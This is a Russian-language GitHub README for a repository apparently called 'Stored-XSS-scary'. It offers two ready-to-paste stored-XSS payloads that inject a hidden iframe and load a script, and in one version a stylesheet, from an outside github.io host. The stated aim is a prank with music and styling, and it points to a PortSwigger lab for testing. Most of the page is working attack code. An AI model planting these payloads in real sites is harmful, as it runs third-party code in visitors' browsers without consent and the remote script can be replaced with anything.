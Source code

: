 # Stored-XSS-scary

Код сработает только при наличии уязвимости хранимый XSS + если сайт не будет блокировать загрузку внешних скриптов и стилей. <br>
Для теста можно запустить лабараторку в https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

<br> https://github.com/0-DAyFF13R/Stored-XSS-scary/assets/63510648/918e3044-14b0-45c1-aa3c-c795c30caf6f

------------------------------------------

Полная версия (музыка + CSS) [445 символов]:
> <script>var f=document.createElement("iframe");f.src="/css/bootstrap.min.css";document.body.appendChild(f);f.onload=function(){var s=document.createElement('script');s.src='//0-dayff13r.github.io/Stored-XSS-scary/start.js';f.contentWindow.document.head.appendChild(s);var c=document.createElement('link');c.rel='stylesheet';c.href='//0-dayff13r.github.io/Stored-XSS-scary/styles.css';document.head.appendChild(c)};f.style.display="none"</script>

<br> Сокращенная версия (только музыка) [300 символов]:
> <script>var f=document.createElement("iframe");f.src="/css/bootstrap.min.css";document.body.appendChild(f);f.onload=function(){var s=document.createElement('script');s.src='//0-dayff13r.github.io/Stored-XSS-scary/start.js';f.contentWindow.document.head.appendChild(s)};f.style.display="none"</script>
